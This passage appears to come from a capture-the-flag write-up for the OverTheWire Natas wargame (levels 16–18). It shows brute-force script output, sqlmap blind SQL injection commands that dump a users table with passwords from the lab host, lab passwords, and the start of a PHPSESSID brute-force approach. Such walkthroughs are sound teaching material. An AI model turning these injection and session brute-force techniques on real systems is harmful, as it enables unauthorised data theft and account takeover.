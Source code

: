 ```
Current pwd "" Bruteforcing.............................................................letter found: 8
Current pwd "8" Bruteforcing..........................................letter found: P
Current pwd "8P". Bruteforcing...................letter found: s
Current pwd "8Ps" Bruteforcing........................................................letter found: 3
Current pwd "8Ps3" Bruteforcing..................................letter found: H
Current pwd "8Ps3H" Bruteforcing.....................................................letter found: 0
[...]
Current pwd "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
```
`8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

### Level 17 - SQL enumeration 2
```
http://natas17.natas.labs.overthewire.org/ natas17 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

```bash
$ ./sqlmap.py --auth-cred="natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" --auth-type=BASIC -u 'http://natas17.natas.labs.overthewire.org/index.php?username=' --level 3 --dbms='MySQL 5.5' -p username --technique T --dbs
available databases [2]:
[*] information_schema
[*] natas17
$ ./sqlmap.py --auth-cred="natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" --auth-type=BASIC -u "http://natas17.natas.labs.overthewire.org/index.php?username=natas17" --level 3 --dbms="MySQL 5.5" -p username --technique T -D natas17 -T users -C username,password --dump
Database: natas17
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| user1    | 0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd |
| user2    | MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 |
| user3    | VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD |
| natas18  | xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP |
+----------+----------------------------------+
```
The password for level 18 is `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`.

### Level 18 - `PHPSESSID` spoofing
```
http://natas1.natas.labs.overthewire.org/ natas xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

Each in PHP is given an id and then stored in a file on the server, typically for PHP 5 `/var/lib/php5/sessions/sess_{session_id}`. On the client side, the id is stored in a cookie named `PHPSESSID`. Ids commonly are a set of alphanumeric char. But here it seems they only go from 0 to 640. So we can use some bruteforce.
